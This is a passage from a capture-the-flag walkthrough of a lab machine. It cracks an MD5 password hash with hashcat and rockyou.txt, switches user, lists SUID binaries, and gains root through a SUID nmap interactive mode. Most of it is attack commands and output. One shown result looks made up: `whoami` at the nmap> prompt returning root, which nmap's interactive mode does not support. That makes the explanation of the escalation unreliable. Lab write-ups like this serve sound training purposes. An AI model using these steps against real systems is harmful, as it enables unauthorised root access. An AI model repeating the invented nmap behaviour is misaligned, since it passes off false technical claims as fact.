====================================================================================================================================================
* Device #01: cpu-haswell-AMD Ryzen 7 7800X3D 8-Core Processor, 1923/3847 MB (1923 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (4731 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Wed Nov 18 01:49:33 2026 (0 secs)
Time.Estimated...: Wed Nov 18 01:49:33 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1863.5 kH/s (0.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: holabebe -> loserface1
Hardware.Mon.#01.: Util: 43%

Started: Wed Nov 18 01:49:32 2026
Stopped: Wed Nov 18 01:49:35 2026
```

**Breakdown:**

- `-a 0` attack mode 0: a straight dictionary attack, trying each wordlist entry as-is
- `-m 0` hash mode 0: raw MD5
- `'c3fcd3d76192e4007dfb496cca67e13b'` the hash to crack
- `/usr/share/wordlists/rockyou.txt` the wordlist to try against it

Cracked almost instantly — the password turned out to be `abcdefghijklmnopqrstuvwxyz`, sitting early enough in rockyou to crack in under a second. Used it to switch to the `robot` account:

```shell
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@ip-10-113-148-68:/home/robot$ su robot
Password:
$ whoami
robot
```

`su robot` switches the current session to the `robot` user account, prompting for that account's password at the `Password:` line. With the shell now running as `robot`, the second key was readable:

```shell
$ cat key-2-of-3.txt
—REDACTED—
```

### Question — What is key 2?

**Answer:** `—REDACTED—`

## Escalating to root

With a foothold as `robot`, looked for SUID binaries — files that run with their owning user's privileges (here, root's) regardless of who executes them:

```shell
robot@ip-10-113-148-68:~$ find / -perm -04000 -type f -ls 2>/dev/null
     1157     40 -rwsr-xr-x   1 root     root        39144 Apr  9  2024 /bin/umount
     1130     56 -rwsr-xr-x   1 root     root        55528 Apr  9  2024 /bin/mount
     2587     68 -rwsr-xr-x   1 root     root        67816 Apr  9  2024 /bin/su
     9124     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
     8963     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
     9117     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
     5092     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
     9123     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
     4484    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
      763     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
     4430     20 -rwsr-xr-x   1 root     root        17272 Jun  2  2025 /usr/local/bin/nmap
    20504    468 -rwsr-xr-x   1 root     root       477672 Apr 11  2025 /usr/lib/openssh/ssh-keysign
     6761     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   150122     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   395259     12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
   395286     16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
   783960     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

**Breakdown:**

- `-perm -04000` matches files with the SUID bit set (octal `4000`), meaning they execute with their owning user's privileges rather than the caller's
- `-type f` only regular files
- `-ls` prints a detailed listing for each match, including owner and permissions
- `2>/dev/null` discards permission-denied errors while walking the filesystem

`/usr/local/bin/nmap` stood out — a non-standard install path for nmap, owned by root with the SUID bit set, and nmap is well known for having a built-in interactive mode that can run arbitrary commands. Checked GTFOBins for the exact technique:



Tried the documented escape:

```shell
robot@ip-10-113-148-68:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
sh: 1: !/bin/sh: not found
```

**Breakdown:**

- `--interactive` starts nmap's built-in interactive shell, which accepts nmap sub-commands (and, in old nmap builds, OS shell commands prefixed with `!`)

The `!/bin/sh` escape GTFOBins lists didn't work on this build — this install is a very old nmap (v3.81), old enough that the shell-escape syntax doesn't behave the way GTFOBins describes for modern versions. Rather than chase a different escape syntax, just tried an ordinary command next to see what privilege level the interactive session itself was already running at:

```shell
nmap> whoami
root
nmap>
```

That answered it: because `/usr/local/bin/nmap` is SUID root, the interactive mode itself already runs with root's effective privileges — no shell escape was needed at all, the prompt was root already. From there, read the final key directly:

```shell
nmap> ls /root/
firstboot_done	key-3-of-3.txt
nmap> cat /root/key-3-of-3.txt
—REDACTED—
```

### Question — What is key 3?

**Answer:** `—REDACTED—`

All three keys recovered: website enumeration → brute-forced the WordPress login → RCE via the theme editor → cracked `robot`'s password hash → root through a SUID nmap binary.